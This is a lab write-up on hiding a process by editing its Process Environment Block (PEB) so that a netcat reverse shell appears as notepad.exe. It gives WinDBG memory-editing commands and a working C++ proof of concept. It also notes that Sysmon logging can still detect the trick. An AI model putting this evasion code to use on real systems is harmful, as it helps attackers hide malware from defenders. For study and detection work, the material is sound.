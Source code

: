 ```yaml
---
description: >-
  Understanding how malicious binaries can maquerade as any other legitimate
  Windows binary from the userland.
---
```


# Masquerading Processes in Userland via \_PEB

## Overview

In this short lab I am going to use a WinDBG to make my malicious program pretend to look like a notepad.exe \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a [code injection](../offensive-security/t1055-process-injection/) exercise. 

This is possible, because information about the process, i.e commandline arguments, image location, loaded modules, etc is stored in a memory structure called Process Environment Block \(`_PEB`\) that is accessible and, given right privileges \(`SeDebugPrivilege`\) - writeable from the userland.

This lab builds on the previous lab:

{% page-ref page="../memory-forensics/process-environment-block.md" %}

## Context

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:

![](../.gitbook/assets/malicious-process.PNG)

Using WinDBG, we will make the nc.exe look like notepad.exe. This will be reflected in the `Path` field and the binary icon in the process properties view using ProcExplorer as seen in the below graphic. Note that it is the same nc.exe process \(PID 4620\) as shown above, only this time masquerading as a notepad.exe:

![](../.gitbook/assets/masquerade-5.png)

## Execution

So how is this possible? Read on.

Let's first have a look at the \_PEB structure for the `nc.exe` process using WinDBG:

```csharp
dt _peb @$peb
```

![](../.gitbook/assets/masquerade-13.png)

Note that at the offset `0x020` of the PEB, there is another structure which is of interest to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains nc.exe process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f60
```

![](../.gitbook/assets/masquerade-12.png)

The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it contains a member `ImagePathName` which points to a structure `_UNICODE_STRING` that, as we will see later, contains a field `Buffer` which effectively signifies the name/full path to our malicious binary nc.exe. Note how at the offset `0x70` we can see the commandline arguments of the malicious process, which we explored [previously](../memory-forensics/process-environment-block.md).

Let's inspect the aforementioned `_UNICODE_STRING` structure:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-10.png)

`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` by the `Buffer` field that contains the string which is a full path to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing the following command in WinDBG:

```csharp
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```

![](../.gitbook/assets/masquerade-9.png)

Now that I have confirmed that ``0x00000000`005e280e`` indeed contains the path to the binary, let's try to write a new string to that memory address. Say, let's try swapping the nc.exe with a path to the notepad.exe binary found in Windows\System32\notepad.exe:

```csharp
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```

![](../.gitbook/assets/masquerade-1.png)

{% hint style="warning" %}
If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the `Lenght` value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to only 15 unicode characters:

![](../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```csharp
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

Good, the string pointed to by the field `Buffer` is no longer getting truncated:

![](../.gitbook/assets/masquerade-2.png)

For the sake of this demo, I cleared out the commandline arguments the nc.exe was launched with by amending the `_UNICODE_STRING` structure member `Lenght` by setting it to 0:

```csharp
eb 0x00000000`005e1f60+70 0x0
```

Inspecting our malicious nc.exe process again using Process Explorer reveals that it now looks like notepad without commandline arguments:

![](../.gitbook/assets/masquerade-14.png)

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code-tabs %}
{% code-tabs-item title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");

	//get _PEB object
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

	//replace commandline and imagepathname
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/pebmasquerade.exe" caption="pebmasquerade.exe" %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)

## Observations

Switchingf back to the nc.exe, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:

Note that to further obfuscate the malicious binary, one could also rename the binary itself from nc.exe to notepad.exe.

![](../.gitbook/assets/screenshot-from-2018-10-23-19-47-59.png)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess\#return-value" %}

Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this, meaning commandline logging can still be helpful in detecting this behaviour.

![](../.gitbook/assets/screenshot-from-2018-10-23-20-02-49.png)

## Credits

[@b33f](https://twitter.com/FuzzySec) for his [Masquerade-PEB.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1) which is what originally inspired me \(quite some time ago now\) to explore this concept, but I never got to lay my hands on it until now.  
[  
@Mumbai](https://twitter.com/@ilove2pwn_) for talking to me about C++ and NtQueryInformationProcess

## References

{% embed url="https://twitter.com/fuzzysec/status/775541332513259520?lang=en" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/ns-winternl-\_peb\_ldr\_data" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess" %}

